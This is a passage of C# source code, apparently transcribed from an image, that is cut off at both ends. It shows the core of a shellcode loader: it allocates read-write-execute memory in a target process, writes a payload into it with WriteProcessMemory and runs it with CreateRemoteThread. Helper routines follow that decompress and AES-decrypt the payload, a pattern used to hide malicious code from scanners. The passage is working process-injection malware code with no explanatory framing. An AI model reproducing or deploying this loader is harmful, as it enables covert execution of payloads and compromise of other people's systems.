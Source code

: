 ```C#
            IntPtr spaceAddr = VirtualAllocEx(hProcess, new IntPtr(0), size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

            int test = 0;
            IntPtr size2 = new IntPtr(sc.Length);
            bool bWrite = WriteProcessMemory(hProcess, spaceAddr, sc, size2, test);
            CreateRemoteThread(hProcess, new IntPtr(0), new uint(), spaceAddr, new IntPtr(0), new uint(), new IntPtr(0));
            return;
        }
        public static byte[] Decompress(byte[] data, string CompressionAlgorithm)
        {
            byte[] decompressedArray = null;
            if (CompressionAlgorithm == "deflate9")
            {
                using (MemoryStream decompressedStream = new MemoryStream())
                {
                    using (MemoryStream compressStream = new MemoryStream(data))
                    {
                        using (DeflateStream deflateStream = new DeflateStream(compressStream, CompressionMode.Decompress))
                        {
                            deflateStream.CopyTo(decompressedStream);
                        }
                    }
                    decompressedArray = decompressedStream.ToArray();
                }
                return decompressedArray;
            }
            else if (CompressionAlgorithm == "gzip")
            {
                using (MemoryStream decompressedStream = new MemoryStream())
                {
                    using (MemoryStream compressStream = new MemoryStream(data))
                    {
                        using (GZipStream gzipStream = new GZipStream(compressStream, CompressionMode.Decompress))
                        {
                            gzipStream.CopyTo(decompressedStream);
                        }
                    }
                    decompressedArray = decompressedStream.ToArray();
                }
                return decompressedArray;
            }
            else
            {

                return data;
            }


        }
        public static byte[] Decrypt(byte[] ciphertext, byte[] AESKey, byte[] AESIV)
        {
            byte[] key = AESKey;
            byte[] IV = AESIV;

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;
```